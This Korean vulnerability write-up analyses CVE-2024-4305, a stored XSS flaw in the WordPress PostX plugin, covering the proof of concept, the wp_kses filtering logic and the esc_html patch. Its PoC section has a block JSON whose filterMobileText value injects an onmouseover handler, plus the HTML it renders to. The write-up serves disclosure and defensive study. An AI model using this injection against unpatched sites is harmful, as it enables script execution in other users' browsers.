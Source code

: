 ```yaml
---
title: "[CVE-2024-4305] 취약점 분석 보고서"
description: "PostX Stored XSS 취약점"
author: bde574786
date: 2024-12-03 00:09:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, XSS, CVE=2024-4305]
---
```



## **1. Description**

페이지나 게시물에 블록이 삽입될 때, 해당 블록 옵션 중 일부를 출력하기 전에 검증과 이스케이프 처리를 하지 않아 Contributor 이상의 권한을 가진 사용자가 Stored XSS 공격을 수행할 수 있다.

또한, 검증과 이스케이프 처리가 누락된 블록 옵션은 JSON 데이터로 저장되고 HTML로 렌더링되는 과정에서 악의적인 스크립트가 실행될 수 있다.

- CVSS: 5.9(Medium)
- CWE: CWE-79(XSS)

## **2. Environment Setting**

### **2.1 Affected Version**

- Post Grid Gutenberg Blocks and WordPress Blog Plugin – PostX < 4.1.0 - Contributor+

## **3. PoC**

**⚠️** Contributor 이상의 사용자만 게시물을 작성하고, 해당 게시물에 블록을 삽입하여 블록 옵션을 수정할 수 있기 때문에 Contributor 이상의 권한을 가진 계정으로 진행해야 한다.

편집기를 코드 편집기로 변경하고 블록 옵션(filterMobileText)에 악성 스크립트를 포함시켜 임시 저장한다. 

<!-- wp:ultimate-post/post-grid-3 -->
```json
{
    "blockId": "d57ca5",
    "currentPostId": "2198",
    "filterShow": true,
    "paginationShow": true,
    "readMore": true,
    "contentTag": "section",
    "openInTab": true,
    "headingText": "123",
    "headingURL": "123",
    "headingTag": "h5",
    "titleTag": "h6",
    "metaMinText": "123",
    "metaAuthorPrefix": "123",
    "fallbackImg": {
        "url": "123",
        "id": 99999
    },
    "readMoreText": "123",
    "filterText": "ClickMe!",
    "filterMobileText": "\"onmouseover='alert(/XSS/)'\"",
    "loadMoreText": "123"
}
```

![image.png](assets/posts/one-day/2024-12-02/img-001.png)

JSON 데이터를 통해 입력된 사용자 입력값이 DOM 요소에 동적으로 삽입되고 HTML 속성으로 렌더링 된다. 따라서,  `ClickMe!` 텍스트 위로 커서가 이동되면 `onmouseover` 이벤트가 발생한다.

```html
<ul class="ultp-flex-menu" data-name="" onmouseover="alert(/XSS/)">
    <li class="filter-item">
        <a class="filter-active" data-taxonomy="" href="#">ClickMe!</a>
    </li>
</ul>
```

![image.png](assets/posts/one-day/2024-12-02/img-002.png)

## **4. Analysis**

`wp_kses` 함수는 두 번째 인자로 `$allowd_html`를 사용해 허용할 태그와 속성을 정의한다. 

```php
wp_kses( string $content, array[]|string $allowed_html, string[] $allowed_protocols = array() ): string
```

PoC에서 공격 벡터로 사용되었던 `filterMobileText`에는 `wp_kses` 함수를 사용해서 xss 공격을 방지하고 있다.

```php
// ultimate-post/blocks/template/filter.php

$attr["filterText"] = wp_kses($attr["filterText"], $allowed_html_tags);
$attr["filterMobileText"] = wp_kses($attr["filterMobileText"], $allowed_html_tags);
```

허용된 태그에서도 최소한의 속성만을 허용하고 있다는 것을 알 수 있다.

```php
// ultimate-post/classes/Functions.php
  
/**
 * Custom Text kses
 * @param $params
 * @return array|bool|mixed|string
 * @since v.4.0.2
*/
public function ultp_allowed_html_tags($extras=[]) {
    $allowed =  array(
        'a'          => array(
            'href'  => true,
            'title' => true,
        ),
        'abbr'       => array(
            'title' => true,
        ),
        'b'          => array(),
        'br'          => array(),
        'blockquote' => array(
            'cite' => true,
        ),
        'em'         => array(),
        'i'          => array(),
        'q'          => array(
            'cite' => true,
        ),
        'strong'     => array(),
    );

    return array_merge($allowed, $extras);
}
```

언뜻 보기에는 문제가 없지만 `wp_kses` 함수는 HTML 태그와 속성만 필터링하기 때문에 취약점이 발생한다.  코드 편집기 모드로 전환하면 JSON 형식으로 블록 데이터를 직접 편집할 수 있으므로 위의 검증과 이스케이프 과정을 모두 우회할 수 있다.

## **5. Patch Diff**

4.1.0 버전에서는 `esc_html` 를 사용하여 모든 특수문자를 이스케이프 처리하였다.

```php
// ultimate-post/blocks/template/filter.php

$attr["filterText"] = isset($attr['filterText']) && $attr['filterText'] ? wp_kses($attr["filterText"], $allowed_html_tags) : '';
$attr['filterMobileText'] = isset($attr['filterMobileText']) && $attr['filterMobileText'] ? esc_html($attr['filterMobileText']) : '';
```

## **6. Discussion**

플러그인 코드에서는 `wp_kses` 함수로 필터링하고 있기 때문에, 겉보기에는 안전한 데이터 처리가 이루어진 것처럼 보인다. 그러나, 데이터가 JSON 입력에서 시작해 HTML로 렌더링되는 과정을 놓치면, 검증 및 이스케이프로 누락으로 인한 취약점을 간과할 수 있다.

UI 입력뿐만 아니라 코드 편집기 모드와 같은 사용자 입력 경로에 실제로 악성 데이터를 삽입하여 테스트 해보는 것이 중요할 듯 하다.